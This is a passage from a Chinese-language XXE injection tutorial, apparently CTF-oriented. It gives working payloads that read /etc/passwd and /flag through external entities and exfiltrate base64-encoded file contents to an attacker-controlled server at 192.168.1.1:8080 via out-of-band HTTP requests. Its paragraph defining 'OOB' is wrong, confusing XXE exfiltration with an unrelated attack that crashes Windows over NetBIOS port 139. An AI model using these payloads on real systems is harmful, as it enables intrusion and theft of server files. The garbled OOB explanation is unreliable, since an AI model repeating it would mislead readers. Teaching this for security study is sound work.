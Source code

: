 hack.dtd的内容如下：

```dtd
<!ENTITY hhh SYSTEM 'file:///etc/passwd'>
```

### 2. 文件读取无回显（多数情况）

当读取文件无回显时，如何将文件内容取出？

#### OOB攻击（把数据发送到远程服务器）

OOB的意思是“束缚数据脱离”，这是一种破坏Windows系统的过程。它通过向TCP端口139发送随机数来攻击操作系统，从而让中央处理器（CPU）一直处于繁忙状态。原理是利用Windows下微软网络协定NetBIOS的一个例外处理程序，简单说就是传递一个特别大的数据包导致系统死机。

常见的场景是通过XML实体漏洞来攻击。

**先使用`php://filter`获取目标文件的内容，然后将内容通过dtd外部文档以http请求发送到接受数据的服务器(攻击服务器)**，这样即使没有回显也能将数据带出。

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=test.txt">
<!ENTITY % dtd SYSTEM "http://192.168.1.1:8080/test.dtd">
%dtd;
%send;
]>
```

**test.dtd的内容，内部的%号要进行实体编码成`&#x25;`**

```xml-dtd
<!ENTITY % payload
"<!ENTITY &#x25; send SYSTEM 'http://192.168.1.1:8080/?data=%file;'>"    <!-- file中就是test.txt的内容 -->
>
%payload;
```

payload的内容为`<!ENTITY % send SYSTEM 'http://192.168.1.1:8080/?data=%file;'>`

访问接受数据的服务器中的日志信息，可以看到经过base64编码过的数据，解码后便可以得到数据


#### 基于报错

基于报错的原理和OOB类似，OOB通过构造一个带外的url将数据带出，而基于报错是**构造一个错误的url并将泄露文件内容放在url中，通过这样的方式返回数据**。所以和OOB的构造方式几乎只有url不同，其他地方一模一样。

- **引入服务器目标文件**

  引入DTD外部实体声明，引入服务器目标文件file:///flag，作为%file。

  ```xml-dtd
  <?xml version="1.0"?>
  <!DOCTYPE message [
      <!ENTITY % remote SYSTEM "192.168.1.1:8080/xml.dtd">    <!-- 引入DTD外部实体声明 -->
  	<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
  	%remote;
  	%send;
  ]>
  <message>1234</message>
  ```
